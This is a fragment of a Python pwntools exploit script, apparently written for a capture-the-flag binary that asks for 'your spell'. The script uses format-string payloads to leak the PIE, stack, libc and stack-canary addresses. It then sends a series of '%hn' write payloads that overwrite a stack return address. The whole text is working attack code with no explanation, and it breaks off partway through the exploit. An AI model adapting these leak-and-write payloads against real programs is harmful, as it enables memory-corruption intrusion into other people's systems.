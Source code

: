 ```python!
r.recvuntil(b'your spell: ')

leak_payload = b'%4$p.%8$p.%29$p.%21$p'

# leak_payload = b''
# for i in range(18, 28):
# 	leak_payload += f'%{i}$p.'.encode()

r.sendline(leak_payload)

leak = r.recvline().split(b'.')

pie = int(leak[0], 16) - 0x10b1 
stack = int(leak[1], 16) + 0x8		# return address of vuln1 (main+ gif dos)

libc_base = int(leak[2], 16) - leak_offset

print(hex(int(leak[2], 16)))

canary = int(leak[3], 16)

log.info(f'Get PIE: {hex(pie)}')
log.info(f'Get STACK: {hex(stack)}')
log.info(f'Get LIBC: {hex(libc_base)}')
log.info(f'Get CANARY: {hex(canary)}')

input("Press Enter to continue...")

vuln3_offset = (pie+0xbd4) & 0xFFFF
vuln3_read_offset = (pie+0xc24) & 0xFFFF
vuln2_offset = (pie+0xc64) & 0xFFFF

main_ret_addr = pie+0xf64

r.recvuntil(b'your spell: ')

payload = f'AA%.{vuln2_offset-2}d%14$hn'.encode()
payload += p64(stack)

r.sendline(payload)

log.info(f'We will return to this address: {hex(main_ret_addr)}')

payload = f'%{main_ret_addr & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x30)

r.recvuntil(b'your spell: ')
r.sendline(payload)

payload = f'%{(main_ret_addr>>16) & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x32)

r.recvuntil(b'your spell: ')
r.sendline(payload)

payload = f'%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x34)

# payload = b'%p'

```